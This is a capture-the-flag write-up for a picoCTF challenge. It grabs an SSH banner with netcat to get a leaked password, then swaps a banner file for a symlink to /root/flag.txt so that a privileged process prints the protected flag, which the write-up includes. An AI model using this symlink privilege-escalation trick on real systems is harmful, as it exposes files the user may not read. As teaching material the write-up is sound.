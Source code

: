 # Overview 
Category: [General Skills]()

AUTHOR: LOIC SHEMA / SYREAL

# Description
Can you abuse the banner?
Additional details will be available after launching your challenge instance.

# Solution
- **we're going to start by exploring the leaked information from the initial server by netcatting that host and port**
  
> ┌──(kali㉿kali)-[/]
 
    └─$ nc tethys.picoctf.net 64478

SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

- **The Exploit**
  
  So now we have a password, we can see what it comes. We will step through a bit of questions and answers available on Google.

> ┌──(kali㉿kali)-[/] 

  └─$ nc tethys.picoctf.net 54610      


\*************************************

\*\*\*\*\*\*\*\*\*\*\*\*WELCOME\*\*\*\*\*\*\*\*\*\*\*\*

\*************************************

    what is the password? 
    My_Passw@rd_@1234
    What is the top cyber security conference in the world?
    DEFCON
    the first hacker ever was known for phreaking(making free phone calls), who was it?
    John Draper
    player@challenge:~$ ls
    banner text

>player@challenge:~$ cat banner

\*************************************

\*\*\*\*\*\*\*\*\*\*\*\*WELCOME\*\*\*\*\*\*\*\*\*\*\*\*

\*************************************

=> It is the code when I opened the connection

    player@challenge:~$ cat text
    keep digging

Now move to the root directory and get the flag?

    player@challenge:~$ cd /root
    player@challenge:/root$ ls
    flag.txt  script.py
    player@challenge:/root$ cat flag.txt
    cat: flag.txt: Permission denied

We have no permission to read it.We can try to symlink the flag to take the place of the banner, and see if it’s being read by something with a higher privilege level.

    player@challenge:/root$  ln -s /root/flag.txt ~/banner
    ln: failed to create symbolic link '/home/player/banner': File exists
    player@challenge:/root$ rm ~/banner
    player@challenge:/root$  ln -s /root/flag.txt ~/banner
    player@challenge:/root$ cd ~
    player@challenge:$ cat ~/banner
    cat: /home/player/banner: Permission denied

We still can’t cat this banner out, but it was served when we connected before, so what if we simply disconnect and reconnect?

>┌──(kali㉿kali)-[/]

    └─$ nc tethys.picoctf.net 54610

**picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}**

